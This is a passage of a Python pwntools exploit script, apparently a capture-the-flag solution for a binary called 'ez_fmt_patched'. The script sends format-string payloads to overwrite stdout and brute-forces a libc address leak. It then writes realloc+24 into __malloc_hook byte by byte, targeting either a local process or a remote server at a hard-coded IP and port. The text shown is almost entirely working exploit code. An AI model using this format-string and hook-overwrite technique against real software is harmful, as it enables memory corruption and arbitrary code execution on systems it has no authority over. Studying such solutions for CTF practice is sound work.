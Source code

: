 ```python
        io.sendline(nice)
        log.info('sending payload: '+nice.decode('utf-8'))
        ptwo = b'%'+str(0x3887).encode('utf-8')+b'c%12$hn'
        #sleep(1)
        io.sendline(ptwo)
        log.info('trying overwrite stdout: '+ptwo.decode('utf-8'))

    for i in range(4, 11):
        pone = b'\xc0'+p8(i * 0x10 + 6)
        nice = b'%'+str(u16(pone)).encode('utf-8')+b'c%9$hn'
        #sleep(1)
        io.sendline(nice)
        log.info('sending payload: '+nice.decode('utf-8'))
        ptwo = b'%12$hhn'
        #sleep(1)
        io.sendline(ptwo)
        log.info('trying overwrite stdout: '+ptwo.decode('utf-8'))


def brutetodead():
    global io
    tmp = b'concac'
    while (b'\x7f' not in tmp):
        try:
            tmp = io.recv(timeout = 0.3)
            #print(tmp.split())
            if (tmp == b''):
                print('DEADGE')
                if BEDUG == True:
                    io.kill()
                    io = process('./ez_fmt_patched')
                else:
                    io.close()
                    io = remote('192.81.209.60', 2022)
                brutewrite_stdout()
                io.recv(timeout = 0.3)
        except:
            if BEDUG == True:
                io.kill()
                io = process('./ez_fmt_patched')
            else:
                io.close()
                io = remote('192.81.209.60', 2022)
    leak = u64(tmp.split()[1][8:14]+b'\0\0')-0x1ec980
    return leak


def getbyte(nth, num):
    return (num >> (8*nth)) & 0xff

libc.address = brutetodead()
log.info('Libc: '+hex(libc.address))
log.info('__realloc_hook:'+hex(libc.sym['__realloc_hook']))
log.info('__malloc_hook: '+hex(libc.sym['__malloc_hook']))
numb = libc.sym['__malloc_hook'] & 0xffff

for i in range(6):
    nice = b'%'+str(numb+i).encode('utf-8')+b'c%9$hn'
    io.sendline(nice)
    bruh = b'%'+str(getbyte(i, libc.sym['realloc']+24)).encode('utf-8')+b'c%12$hhn'
    io.sendline(bruh)

```